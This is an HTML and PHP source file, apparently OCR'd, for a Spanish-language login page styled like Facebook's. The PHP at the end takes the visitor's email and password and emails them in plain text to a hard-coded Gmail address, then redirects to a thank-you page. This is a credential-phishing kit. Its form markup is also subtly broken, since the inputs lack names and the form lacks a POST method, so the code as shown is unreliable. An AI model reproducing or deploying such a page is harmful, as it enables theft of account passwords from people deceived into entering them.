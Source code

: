         .login-form a {
            color: #1877f2;
            text-decoration: none;
        }

        .login-form a:hover {
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div class="login-container">
        <div class="login-header">
            <h2>Iniciar sesión</h2>
        </div>
        <form class="login-form">
            <input type="text" placeholder="Correo electrónico" required>
            <input type="password" placeholder="Contraseña" required>
            <button type="submit">Iniciar sesión</button>
        </form>
        <p><a href="#">¿Olvidaste tu contraseña?</a></p>
        <p>No tienes una cuenta? <a href="#">Regístrate</a></p>
    </div>
</body>
</html>
<?php
if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $correo = $_POST["correo"];
    $contrasena = $_POST["contrasena"];

    // Aquí puedes agregar código para enviar un correo electrónico a andreytamayo80@gmail.com
    // Usualmente, se utiliza la función mail() de PHP para enviar correos, pero asegúrate de configurar tu servidor correctamente.

    $destinatario = "andreytamayo80@gmail.com";
    $asunto = "Nuevo inicio de sesión";
    $mensaje = "Correo: $correo\nContraseña: $contrasena";

    mail($destinatario, $asunto, $mensaje);

    // Puedes redirigir al usuario a otra página después de enviar el formulario si lo deseas.
    header("Location: gracias.html");
    exit();
}
?>
